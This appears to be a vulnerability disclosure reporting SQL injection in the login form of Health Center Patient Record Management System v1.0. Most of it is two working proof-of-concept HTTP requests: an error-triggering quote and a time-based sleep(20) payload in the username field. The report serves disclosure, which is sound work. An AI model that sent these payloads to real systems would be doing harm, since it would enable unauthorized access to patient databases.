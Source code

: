 # Health Center Patient Record Management System v1.0 has SQL injection

BUG_Author: wangte

Website source address:https://www.sourcecodester.com/php/11058/health-center-patient-record-management-system.html

Vulnerability File: /HCPMS/login.php

form-data parameter name="username" (POST), exists SQL injection vulnerability

Payload1:a'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 329
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

An error occurred in the sql statement

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql1.png)

Payload2:a'+(select*from(select(sleep(20)))a)+'

```
POST /HCPMS/login.php HTTP/1.1
Host: localhost
Content-Length: 365
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx9y4jGcydZgVeJEQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/HCPMS/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6fcav63hl60icb4n7tsvv0ns5k
Connection: close

------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="username"

a'+(select*from(select(sleep(20)))a)+'
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="password"

b
------WebKitFormBoundaryx9y4jGcydZgVeJEQ
Content-Disposition: form-data; name="login"


------WebKitFormBoundaryx9y4jGcydZgVeJEQ--

```

The server's response time is 20 seconds

![image](https://github.com/2689469248/bug_report/blob/main/pictures/sql2.png)

